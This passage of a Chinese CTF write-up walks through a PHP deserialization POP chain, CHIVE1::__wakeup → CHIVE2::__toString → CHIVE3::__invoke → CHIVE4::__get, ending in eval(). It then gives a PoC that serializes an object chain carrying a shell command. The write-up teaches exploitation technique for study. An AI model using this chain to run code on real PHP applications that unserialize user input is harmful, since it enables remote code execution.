 ```php
}
```

这种题目先找入口和重点, 也就是反序列化调用之后有那个函数是会被调用的, 以及在哪里执行命令

看到 `__wakeup(),` 反序列化时候会被调用, 因此我们先实例化一个 `CHIVE1`类对象

在 `__wakeup()`方法中, 使用了 `$this->aa == "show_me_flag"`, 把 `aa`和字符串进行了比较, 这个时候我们要去找有没有 `__tostring()`

`__tostring()`在 `CHIVE2`中, 因此我们让 `aa = new CHIVE2();`

在 `__tostring()`方法中, 直接把 `dd`当成了函数调用, 调用函数找一下有没有 `__invoke()`方法

 `__invoke()`在 `CHIVE3`中, 因此我们让 `dd = new CHIVE3();`

在 `__invoke()`方法中, 调用了 `bb->source`, 也就是调用了 `bb`的 `source`方法
如果 `bb`不存在 `source`方法, 就会调用 `bb`的 `__get()`方法

因此我们让 `bb = new CHIVE4();`, 执行 `eval()`, 的 `ee`, 到达终点

pop链如下

```php
CHIVE1::__wakeup() -> CHIVE2::__toString() -> CHIVE3::__invoke() -> CHIVE4::__get()
```

 编写poc

```php
<?php

class CHIVE1
{
    public $aa = "show_me_flag";
    public $bb;
    public $source;
}

class CHIVE2
{
    public $dd;
}
class CHIVE3{
    public $bb;
    public $source = '';
}
class CHIVE4{
    public $ee;
}
$a = new CHIVE1();
$a->aa = new CHIVE2();
$a->aa->dd = new CHIVE3();
$a->aa->dd->bb = new CHIVE4();
$a->aa->dd->bb->ee = "echo `ls`;";
$p = serialize($a);
echo $p;
// unserialize($p);
```

